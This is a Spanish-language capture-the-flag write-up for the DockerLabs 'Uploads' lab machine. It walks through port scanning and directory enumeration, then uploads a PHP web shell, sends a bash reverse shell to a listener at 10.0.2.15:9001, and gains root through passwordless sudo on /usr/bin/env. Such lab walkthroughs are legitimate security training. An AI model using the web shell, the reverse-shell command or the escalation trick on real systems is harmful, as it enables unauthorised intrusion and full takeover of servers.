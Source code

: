 #Uploads DockerLabs - 12/05/2024

#web - https://dockerlabs.es/#/

Primero hacemos un escaneo de puertos básico hacia la ip que por defecto es la *172.17.0.2*.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2
===============================================================
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 00:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```

Vemos que hay un puerto 80 abierto y entramos desde firefox.


Entramos y vemos una pagina web con un apartado para subir archivos.

![Captura de pantalla 2024-05-13 001149](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/289a79e0-f7c1-4cf6-808f-946ab1c4059f)

Realizamos un escaneo de subdominios con gobuster para ver si encontramos algo interesante.

```shell
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]

```

Encontramos un subdominio *http://172.17.0.2/uploads/*.
Entramos y podemos ver que es donde se alojan los archivos subidos.

![Captura de pantalla 2024-05-13 002043](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/418a59e7-daa7-4819-b895-376a3286d882)

Creamos un script en formato ".php" con el siguiente contenido

```shell
<?php
	system($_GET['cmd']);
?>
```

Lo subimos y llamamos al archivo con un "?cmd=id" quedando de esta manera:

![Captura de pantalla 2024-05-13 204619](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/7b55fd0a-62eb-4f95-bdbc-cc921362b579)

```shell
http://172.17.0.2/uploads/cmd.php?cmd=id
```

Entramos a "https://www.revshells.com/" en esta web encontramos reverse shells ya generadas y listas para copiar y para cambiar los parametros de una manera sencilla

![Captura de pantalla 2024-05-13 204754](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/0a20f8dd-895e-4ead-8ab9-b8e171bc2423)
![Captura de pantalla 2024-05-13 204807](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/28ff216f-eaf8-4fe3-95ac-4520704adc72)


Ejecutamos netcat con el puerto 9001 como puerto de escucha:

```shell
└─$ nc -lvnp 9001
listening on [any] 9001 ...

```

Ejecutamos la reverse shell de manera en que llamemos al archivo "cmd.php" y le pasasemos los parametros anteriores "?cmd=id" y ahora sustituimos id por bash -c seguido de dos comillas y la reverse shell:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.0.2.15/9001 0>%261" )

```

![Captura de pantalla 2024-05-13 210138](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/853d7ccc-3224-4c5d-8495-0247a5960d9d)

Ahora solo faltaría la escalada de privilegios
Comprobamos los permisos del usuario con:

```shell
└─$ sudo -l
```

![Captura de pantalla 2024-05-13 210530](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/449ea752-5a93-4e67-a77e-d306b1111214)

En este caso podemos ver que podemos ejecutar el binario "/usr/bin/env" siendo este usuario "root" como se puede apreciar y indica que no tiene contraseña entonces prodecedemos a ejecutar este binario:

```shell
└─$ sudo env /bin/sh
```

![Captura de pantalla 2024-05-13 210851](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6006d2f9-c5bf-44da-b6a8-e916850a9d0e)

y ahora realizamos un whoami para saber que usuario somos:
```shell
# whoami
root
```
y podremos comprobar que si que somos el usuario root.
